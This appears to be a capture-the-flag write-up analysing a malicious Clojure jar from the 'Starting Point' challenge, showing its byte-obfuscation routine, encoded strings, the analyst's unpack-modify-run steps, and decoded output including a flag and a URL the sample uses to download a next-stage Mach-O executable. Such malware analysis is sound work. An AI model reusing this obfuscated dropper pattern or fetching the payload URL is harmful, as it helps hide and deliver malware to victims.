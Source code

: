 # Starting Point

> Points: 6

> URL: https://drive.google.com/file/d/12DjJPbMUfFIbG2zq33d7kUrCVeoVDTY9/view?usp=sharing </br>
An organization from the finance sector has reported a malicious activity and submitted a file for analysis. What does this file do?

From the link provided, we're downloading `autotrader-1.0.0-standalone.jar` and by looking into it using the [`jadx-gui`](https://github.com/skylot/jadx) tool, we see references to `clojure`. Since we have no experience with Clojure, next several hours were spent reading online resources and trying to understand the code. Interesting code was found in `autotrader.clj` where some parts looked like obfuscation function:

```
(defn load-meta []
  (let [bytes [0xac 0xb2 0xd2 0xba 0xb2 0xad 0xa3 0x7a
               0x84 0xca 0x76 0x9e 0xcf 0x9d 0x85 0x74
               0xaa 0x60]
        pb (map-indexed (fn [idx byte]
                                       (-> byte
                                           (bit-xor idx)
                                           (+ idx)
                                           bit-not))
                                     bytes)]
    (apply str (map char (map (fn [b] (bit-and b 0xff)) pb)))))

```

Also there were two commented-out lines that looked interesting:

```
;(println (load-meta))
;(download-current-market-data "Oz9ZMzZoe1QbUgorVQAPGxsePCYCMSQlew0xWyM1AxM1")
(download-current-market-data "Oz9ZM399exIFR0pxQwlJFlBPMX9OcCQ2ZkxYAxpmAAZXRQdMZ3xJJnNmN0tcV05wXQMUHlAJ")
```

Next steps are to uncomment the `println` and see what is says. After modifying `autotrader.clj` file, we struggled to figure out how to run it, eventually, after many different failures trying to run `autotrader.clj` using various `clj`, `clojure`, `lein` tools, we did following:

- extracted jar file `unzip -d ./autotrader autotrader-1.0.0-standalone.jar`
- opened `./autotrader/autotrader.clj` file in text editor and made following modifications: 
    - uncommented the `println` line
    - added two more lines to print the decoded urls used in the script:
      
      ```
      (println (load-url "Oz9ZMzZoe1QbUgorVQAPGxsePCYCMSQlew0xWyM1AxM1" (load-meta)))
      (println (load-url "Oz9ZM399exIFR0pxQwlJFlBPMX9OcCQ2ZkxYAxpmAAZXRQdMZ3xJJnNmN0tcV05wXQMUHlAJ" (load-meta)))
      ```

- packed the files back into jar: `jar -cmf META-INF/MANIFEST.MF ../autotrader_modified.jar *`
- executed modified jar file: `java -jar autotrader_modified.jar` and got first flag:

  ```
  # java -jar autotrader_modified.jar                         
  Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
  SK-CERT{k3y_0bfu5}
  https://pastebin.com/raw/vZhZj3qS
  http://int3.sk/ce2b4c3ad2730c90d102147de64c07d7/market

  ```

First link is canary, while the second link, which is used in the original jar file, downloads file `market` which is `Mach-O 64-bit x86_64 executable` and part of next challenge.

> flag: `SK-CERT{k3y_0bfu5}`

# Big Problem

> Points: 6

> It appears that the initial program has dropped another file. What is the function of this new file?

